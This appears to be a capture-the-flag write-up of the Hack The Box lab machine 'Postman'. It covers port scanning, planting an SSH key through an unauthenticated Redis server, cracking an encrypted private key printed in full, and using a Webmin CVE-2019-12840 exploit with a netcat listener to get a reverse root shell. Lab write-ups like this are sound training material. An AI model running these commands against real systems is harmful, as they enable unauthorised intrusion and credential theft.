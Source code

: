 # Postman (`10.10.10.160`)

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `postman.htb` to `10.10.10.160`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports postman.htb
# Nmap 7.80 scan initiated Sun Nov 15 19:58:10 2020 as: nmap -A -v -p- -Pn -oA allports postman.htb
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.052s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/15%OT=22%CT=1%CU=37851%PV=Y%DS=2%DC=T%G=Y%TM=5FB1DD
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=
OS:M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7
OS:%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y
OS:%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Uptime guess: 32.017 days (since Wed Oct 14 20:36:19 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   55.03 ms 10.10.14.1
2   55.08 ms postman.htb (10.10.10.160)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 15 20:00:35 2020 -- 1 IP address (1 host up) scanned in 145.28 seconds
```

The current attack surface is:

- `Apache httpd 2.4.29`
- `Redis key-value store 4.0.9`
    * No databases
- `MiniServ 1.910 (Webmin httpd)`
    * Requires creds for RCE

### `MiniServ 1.910 (Webmin httpd)` (Port `10000`)

![](img/2020-11-15-21-07-36.png)

### `redis`

I learn about a `redis` reverse shell method from: https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/

![](img/2020-11-17-02-37-18.png)

I prepend two newlines to the public key to ensure it's clearly separated from any other contentS. `pwn.pub` is a modified copy of `redis-pwn.pub`.

![](img/2020-11-17-02-54-49.png)

I then run the following commands:

```bash
$ redis-cli -h postman.htb flushall
$ cat pwn.pub | redis-cli -h postman.htb -x set crackit
OK
$ redis-cli -h postman.htb
postman.htb:6379> config set dir /var/lib/redis/.ssh
OK
postman.htb:6379> config set dbfilename authorized_keys
OK
postman.htb:6379> save
OK
postman.htb:6379> quit
```

![](img/2020-11-17-02-57-24.png)

## Privilege Escalation to Matt

I find a backup of an `id_rsa` key that's encrypted in `/opt/id_rsa.bak`.

```bash
$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

I use `ssh2john.py` to crack the password of this key.

![](img/2020-11-17-19-03-39.png)

`computer2008` is the password to the key. I try to `ssh` in with this key, but the connection is terminated immediately. I run `$ su Matt` from my `ssh` session as `redis` and enter the password. It works.

![](img/2020-11-17-19-04-47.png)

## Privesc to Root

I can log in to the Webmin interface with the credential pair `Matt:computer2008`.

I use `CVE-2019-12840` to get a root shell. I download the exploit, create a `nc` listener, and get a reverse shell.

```bash
$ wget https://raw.githubusercontent.com/KrE80r/webmin_cve-2019-12840_poc/master/CVE-2019-12840.py

$ sudo nc -lvnp 443

$ python CVE-2019-12840.py -U Matt -P computer2008 -u https://postman.htb -p 10000 -lhost 10.10.14.27 -lport 443
```

![](img/2020-11-17-22-26-12.png)